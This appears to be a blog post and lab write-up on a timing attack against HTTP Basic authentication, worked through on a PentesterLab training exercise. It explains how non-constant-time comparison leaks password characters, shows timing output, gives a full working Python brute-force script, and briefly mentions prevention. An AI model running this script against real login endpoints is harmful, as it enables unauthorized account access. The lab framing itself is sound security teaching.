 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: Simon
summary: Guess the password in basic web authentication.
categories: security
tags: 
 - security
 - timing attack
---
```


## Background 
Non-constant string comparison time can be a vulnerablity of Basic web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](/img/2015-08-21-authentication-timing-attack.png){:width="500px"}
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are other types of auth requests than Basic, such as Digest and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
`dXNlcm5hbWU6cGFzc3dvcmQ=` is the base64 code of `username:password`. The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is `abcde`. Comparing `abcde` with `ab123` and `abc123`, the second one takes more time than the first one. With `ab123`, it compares 3 characters, and stops at the third letter. With `abc123`, it compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters by comparing the response time of auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The output `0 p40 1.809672` means `Index password response_time`. In the first loop, I send requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test the next byte. It stops when it finds the correct password (getting response 200). 

### Script 
In this example, Python 2.7 was used to send requests and count time. `Requests: HTTP for Humans` is an easy-to-use library for HTTP requests. time.time() is used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the wall clock time, considering other factors such as network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print '--------------------'
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
To prevent this vulnerability, either have a constant response time or use a more secure authentication technique.
